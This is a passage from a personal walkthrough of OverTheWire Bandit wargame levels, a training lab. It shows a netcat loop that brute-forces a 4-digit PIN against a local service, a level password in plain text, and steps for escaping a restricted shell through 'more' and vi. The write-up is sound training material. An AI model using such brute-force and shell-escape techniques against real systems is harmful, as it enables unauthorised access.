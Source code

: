 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~sh
for pin in {0000..9999}; do
    echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $pin"
done | nc localhost 30002
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

## 25:
`p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d`
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~bash
ssh -p 2220 bandit25@bandit.labs.overthewire.org
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

__Level Goal__
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

**Commands you may need to solve this level**
ssh, cat, more, vi, ls, id, pwd

### Solution

I personally think this is the best bandit level because it had me totally lost 😂 , and it was the most creative IMHO.

```bash
cat /etc/passwd | grep bandit26 # find out that bandit 26 uses /usr/bin/showtext as default shell
cat /usr/bin/showtext # find out that showtext will execute: 
```

`/usr/bin/showtext`:

```sh
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
```

it executes `more` and prints `~/text.txt`:

```
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
```

 and then exits after displaying it ***FULLY***. this is the key. you gotta exploit the behavior of `more` that will activate interactive mode. It won't be fully displaying the `text.txt` by resizing your terminal to be vertically smaller.

`man more`  read about more, where you will find out that you can open vim from `more` by pressing v
